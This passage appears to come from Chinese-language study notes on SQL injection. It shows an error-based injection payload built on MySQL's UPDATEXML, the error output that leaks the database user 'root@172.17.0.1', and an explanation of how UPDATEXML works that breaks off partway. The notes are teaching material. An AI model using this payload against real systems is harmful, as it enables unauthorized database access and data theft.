 ![image-20250809170746248](./images/sql注入/image-20250809170746248.png)

运行查看

返回：

> java.sql.SQLException: XPATH syntax error: '~root@172.17.0.1~'

payload

> 1' and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1) AND '1'='1
>
>  `UPDATEXML()` 函数用法：
>
> XML 字符串：
>
> ```
> <person>
>   <name>John</name>
>   <age>30</age>
> </person>
> ```
>
> 函数调用
>
> ```
> SELECT UPDATEXML('<person><name>John</name><age>30</age></person>', '/person/name', 'Alice');
> ```
>
> 这个查询会返回：
>
> ```
> xml复制编辑<person>
>   <name>Alice</name>
>   <age>30</age>
> </person>
> ```
>
> 所以这个payload：
>
> - `1'`: 结束当前字符串。
